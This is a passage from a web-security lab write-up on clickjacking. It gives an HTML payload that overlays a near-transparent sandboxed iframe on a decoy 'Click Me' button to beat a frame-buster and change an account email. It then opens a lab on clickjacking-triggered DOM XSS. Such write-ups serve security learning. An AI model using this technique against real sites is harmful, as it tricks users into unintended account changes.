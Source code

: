 Same lab as before, we just need to bypass frame buster by sandboxing the iframe. 

```html
<style>
    iframe {
        position:relative;
        width:780px;
        height: 600px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:449px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe sandbox="allow-forms"
src="https://0a4e001804ae73c880ca031700cf00e7.web-security-academy.net/my-account?email=wiener@changed.de"></iframe>
```

# Exploiting clickjacking vulnerability to trigger DOM-based XSS
> This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

First we need to find a DOM XSS. I have used DOM Invader for that purpose:

![picture 3](/assets/images/921cd528d337bb398d68ff7ce68c6c50e0bdc7e6333885358e1b4f9dbd20093c.png)  

